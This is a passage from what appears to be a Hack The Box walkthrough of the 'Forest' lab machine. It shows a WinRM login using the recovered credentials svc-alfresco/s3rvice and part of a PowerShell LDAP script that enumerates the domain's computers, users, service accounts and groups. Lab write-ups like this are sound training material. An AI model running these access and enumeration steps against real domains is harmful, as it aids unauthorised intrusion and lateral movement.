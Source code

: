 The output from the full TCP `nmap` scan shows that a WinRM port is open:

- 5985/tcp (HTTP) **this one is open**
- 5986/tcp (HTTPS)

Connect to this from Kali using PowerShell:

```bash
# install client
sudo apt update
sudo apt install powershell
pwsh
```

Use the credentials `svc-alfresco@htb.local/s3rvice` to connect:

```powershell
$creds = Get-Credential # svc-alfresco@htb.local/s3rvice
Enter-PSSession -ComputerName 10.10.10.161 -Authentication Negotiate -Credential $creds
Get-ChildItem -Path c:\ -Filter user.txt -Recurse -ErrorAction SilentlyContinue -Force
```

And that access provides `user.txt`:

![user1](./forest/user1.png)

From here, it seems like the machine does not have any unique installed/running software that looks vulnerable and the current user `svc-alfresco` does not have any unique permissions to take advantage of... Maybe the next step is to move laterally in the domain? Enumerate the domain and save the following PowerShell in `bubba`:

```powershell
$d=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();
$q=("LDAP://"+($d.PdcRoleOwner).Name+"/DC="+($d.Name.Replace('.',',DC=')));
$s=New-Object System.DirectoryServices.DirectorySearcher([ADSI]$q);
$s.SearchRoot=(New-Object System.DirectoryServices.DirectoryEntry);
write-host "-- COMPUTERS --";
$s.filter="(objectCategory=computer)";$s.FindAll()|?{write-host $_.Path};
write-host "-- USERS --";
$s.filter="(objectCategory=person)";$s.FindAll()|?{write-host $_.Path};
write-host "-- SERVICES --";
$s.filter="(serviceprincipalname=*)";$s.FindAll()|?{write-host $_.Path};
write-host "-- GROUPS --";
$s.filter="(objectCategory=group)";$s.FindAll()|?{write-host $_.Path};
write-host "-- MEMBERSHIP --";
function _r {
  param($o,$m);
  if ($o.Properties.member -ne $null) {
```